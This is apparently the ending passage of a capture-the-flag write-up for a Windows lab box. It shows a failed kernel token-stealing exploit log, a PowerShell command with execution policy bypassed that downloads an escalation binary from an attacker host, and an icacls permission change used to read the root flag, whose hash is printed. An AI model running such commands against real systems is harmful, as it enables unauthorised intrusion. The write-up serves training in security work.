       [*] Address:      0x779a5420
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [!] Target patched
         [*] Possible security patches
            [*] KB2503665
            [*] KB2975684

C:\Users\Alfred\Desktop&gt;
</pre>

Unfortunately the system has been patched and this didn&#8217;t work. I found another exploit &#8211; uploaded and run it but it didn&#8217;t work.

<pre>powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/EoP.exe','EoP.exe')</pre>

I came back to the box the next day &#8211; yes I needed to take a break, especially as I was getting really annoyed as it took me a long time to figure out how to transfer a file into windows. Linux is so much easier &#8211; never thought I&#8217;d hear myself saying that! I&#8217;m actually at the stage that I prefer working in Linux for exploiting things.

I decided to go back over my notes and realized that I can view the root.txt file &#8211; which you normally cant, I actually made reference that this was usual but I ignored it and moved on. This turned out to be the way forward. I changed permission of the file and granted Alfred user ( whom I&#8217;m logged in as ) access. &#8211; After a bit of Googling I got the correct command.

<pre>C:\Users\Administrator\Desktop&gt;icacls "c:\Users\Administrator\Desktop\root.txt" /grant Alfred:F
icacls "c:\Users\Administrator\Desktop\root.txt" /grant Alfred:F
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop&gt;
</pre>

Next stop, root flag!

<pre>C:\Users\Administrator\Desktop&gt;type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
</pre>

FIN

